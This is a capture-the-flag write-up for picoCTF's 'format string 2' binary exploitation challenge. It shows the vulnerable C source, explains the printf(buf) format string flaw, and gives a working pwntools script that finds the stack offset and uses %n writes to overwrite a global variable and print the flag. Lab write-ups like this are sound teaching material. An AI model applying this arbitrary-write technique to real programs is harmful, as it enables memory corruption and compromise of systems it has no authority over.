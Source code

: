 # PicoCTF - format string 2

## Challenge Overview
**Title:** format string 2  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** vuln.c, vuln

## Description
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack! Download the binary here. Download the source here.

Additional details will be available after launching your challenge instance.

## Source Code
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

## Initial Analysis
We see our input buffer and the flag buffer declared in the stack
```c
char buf[1024];
char flag[64];
```

We also find the format string **vulnerability**.
```c
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf);
```

From the description we understand that we will have to now **change** a value.  
In the code we see a global variable `sus` with the value **0x21737573**.  
```c
int sus = 0x21737573;
```

`sus` is then checked if it matches a **different** value and if so, prints the flag.

```c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
```

So we will have to change th value of `sus`.

## Detailed Analysis
I will use the following `pwntools` Python script to create the string **payload**.

### Script
```python
from pwn import *

exe = context.binary = ELF('./vuln', checksec=False)

target_addr = exe.symbols.sus
value_to_write = 0x67616c66

conn = remote('rhea.picoctf.net', 62587)

# Calculate argument offset
def find_offset():
   payload=b"AAAA"
   payload += b'%p.' * 20  # print 20 pointers from stack
   print(conn.recvline())
   conn.sendline(payload)
   print(conn.recvline())

def send_payload():
   
   offset = 14

   payload = fmtstr_payload(offset, {target_addr: value_to_write},write_size='byte')
   print(payload)

   print(conn.recvline())
   conn.sendline(payload)
   print(conn.recvall())
   

send_payload()
# find_offset()
```

First, I call `find_offset()` to find the **start** of the input which is needed for correct **argument** offset and I see the following.  
```
Here's your input: AAAA0x402075.(nil).0x733f4236ba00.(nil).0x15332b0.0x733f423bdaf0.0x733f423944e8.0x9.0x733f42394de9.0x733f42165098.0x733f423814d0.(nil).0x7ffdc76d9cd0.0x252e702541414141.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.\n"
```

We see that the start of our **input**, A (0x41), appears at offset **14**.

We replace that value in the `offset` variable of `send_payload()`.  
`send_payload()` constructs the string **payload** and sends it to the server.

Now running our script and calling `send_payload()` we see
```
I have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{___REDACTED___}
```

### String Format Background
To **write** values using formatted strings, we use the **%<num>$n** format specifier which **writes** the amount of currently outputted **bytes** to the stack argument at the **specified** offset, thats why we **need** to find the offset.  
We write **1 byte** at a time, specified by **hh**, to prevent side effects, like **overwriting** further than we intended.

## Solution
- Use the above **script**
- Change the server name and port number accordingly.
- Run

## Tools Used
- `pwntools`